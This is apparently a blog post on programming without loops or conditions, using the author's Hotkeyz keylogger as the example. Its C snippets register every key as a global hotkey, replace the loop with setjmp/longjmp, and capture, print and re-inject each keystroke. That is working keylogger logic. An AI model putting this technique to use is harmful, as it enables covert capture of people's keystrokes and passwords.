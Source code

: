 # Programming without conditions or loops
This blogpost started as a challenge from the highly prolific Twitter/X account [vx-underground](https://x.com/vxunderground):
![A challenge appears](tweet_vx.png)

Since I already have my [Hotkeyz](https://github.com/yo-yo-yo-jbo/hotkeyz/) project, I thought it could be a nice answer to the challenge.  
One inspiration I had was the famous [Movfuscator](https://github.com/xoreaxeaxeax/movfuscator) but that seems like a huge overkill (I like Assembly but I guess the challenge was for higher level languages).  
So, given that, how do you code without loops or conditions?  

## Loops
In my original project, I have several loops:
1. The loop that registers the entire keyboard as hotkeys.
2. The loop that keeps peeking at Window Messages.

Well, loop #1 is easy, since I can just implement it in the most procedural way:
```c
	// Register all hotkeys (no loops)
	(VOID)RegisterHotKey(NULL, VK_BACK, 0, VK_BACK);
	(VOID)RegisterHotKey(NULL, VK_TAB, 0, VK_TAB);
	(VOID)RegisterHotKey(NULL, VK_RETURN, 0, VK_RETURN);
	(VOID)RegisterHotKey(NULL, VK_SPACE, 0, VK_SPACE);
	(VOID)RegisterHotKey(NULL, VK_INSERT, 0, VK_INSERT);
	(VOID)RegisterHotKey(NULL, VK_DELETE, 0, VK_DELETE);
	(VOID)RegisterHotKey(NULL, '0', 0, '0');
	(VOID)RegisterHotKey(NULL, '1', 0, '1');
	(VOID)RegisterHotKey(NULL, '2', 0, '2');
	(VOID)RegisterHotKey(NULL, '3', 0, '3');
	(VOID)RegisterHotKey(NULL, '4', 0, '4');
	(VOID)RegisterHotKey(NULL, '5', 0, '5');
	(VOID)RegisterHotKey(NULL, '6', 0, '6');
...
```

Note that I map each virtual key to its own ID, which should make things easier later as I do not need to maintain a complex table that maps between those.

Loop #2 is more challenging. In my original code I run the keylogger for a certain amount of time, but I think it's okay for me to just run forever.  
So, what I'm after is implementing this:
```c
for (;;)
{
    // Logic goes here
}
```

Initially I thought of using the [GetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getthreadcontext) and [SetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext) APIs, but it won't work since you cannot do it for a running thread.  
I could, of course, create a new thread and constantly call `SetThreadContext` when I feel like it, but it seems like an overkill. Instead, I used a different approach that comes straight from the C standard library: `setjmp` and `longjmp`!  
If you're unfamiliar with the concept, `setjmp` basically saves an "execution context" in a buffer, and `longjmp` restores that execution context (with the option of returning an arbitrary value from `setjmp` when jumping to it from `longjmp`). Curiously, there's even a Wikipedia page on [Wikipedia](https://en.wikipedia.org/wiki/Setjmp.h) - you're welcome to read it.  
Eseentially, I can now do the following:

```c
jmp_buf tJumpBuffer = { 0 };
...

(VOID)setjmp(tJumpBuffer);

// Loop logic goes here

longjmp(tJumpBuffer, 1);
```

## Conditions
For conditions I needed to check only a couple of things:
1. The return result of the [PeekMessageW](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-peekmessagew) API - it's a `BOOL` but essentially will be either `0` or `1`.
2. Validating that the message type is `WM_HOTKEY`.

Both of those are comparisons to known values, with an `and` logic between them. Essentially what I want to do is:

```c
if ((PeekMessageW(&tMsg, NULL, WM_HOTKEY, WM_HOTKEY, PM_REMOVE)) && (WM_HOTKEY == tMsg.message))
{
	cCurrVk = (BYTE)((((DWORD)tMsg.lParam) & 0xFFFF0000) >> 16);
	(VOID)wprintf(L"%c", cCurrVk);
	(VOID)UnregisterHotKey(NULL, cCurrVk);
	keybd_event(cCurrVk, 0, 0, (ULONG_PTR)NULL);
	(VOID)RegisterHotKey(NULL, cCurrVk, 0, cCurrVk);
}
else
{
	Sleep(20);
}
```

